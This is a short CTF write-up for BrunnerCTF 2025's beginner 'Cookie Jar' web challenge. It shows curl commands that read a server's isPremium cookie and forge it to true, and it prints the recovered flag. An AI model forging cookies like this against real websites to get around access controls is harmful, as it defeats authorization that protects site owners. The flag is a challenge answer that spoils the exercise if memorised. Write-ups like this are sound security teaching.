 ```yaml
---
tags:
  - ctfs/challenges
ctf: "[[BrunnerCTF 2025]]"
areas:
  - "[[Web]]"
solved: true
---
```


> [!info] Prompt
> **Difficulty:** Beginner  
**Author:** Quack
> 
> We just got our hands on grandma's legendary cookie jar! What delicious treats could she be hiding here?

# Walk Through

This is a web challenge. To start, spin up the challenge's web server instance.

## Check it out

![[Pasted image 20250823004829.png]]

There's nothing to interact with on the site. Since it's a Cookie challenge, I'll try to grab any cookies using `curl`.

```
❯ curl -I https://cookie-jar-05685147db1e11bb.challs.brunnerne.xyz/
HTTP/2 200 
content-type: text/html; charset=utf-8
date: Sat, 23 Aug 2025 04:50:26 GMT
etag: W/"829-uu7okb5mirws6ghYPsmQK6DEP98"
set-cookie: isPremium=false; Path=/
x-powered-by: Express
content-length: 2089
```

Here's a clue... `set-cookie: isPremium=false;` Grandma's Legendary Cookie recipe is only available to premium cookie consumers.

I'll try to set `isPremium` to true.

```
❯ curl --cookie "isPremium=true" https://cookie-jar-05685147db1e11bb.challs.brunnerne.xyz/                                     
```

This ended up doing the trick. To trim the output I'll pipe that to `grep` to filter out the line containing the flag.

```
❯ curl --cookie "isPremium=true" https://cookie-jar-05685147db1e11bb.challs.brunnerne.xyz/ | grep FLAG
          <p><div class="flag-box"><b>FLAG:</b> brunner{C00k135_4R3_p0W3rFu1_4nD_D3l1c10u5!}</div></p>
```

## Flag found

**brunner{C00k135_4R3_p0W3rFu1_4nD_D3l1c10u5!}**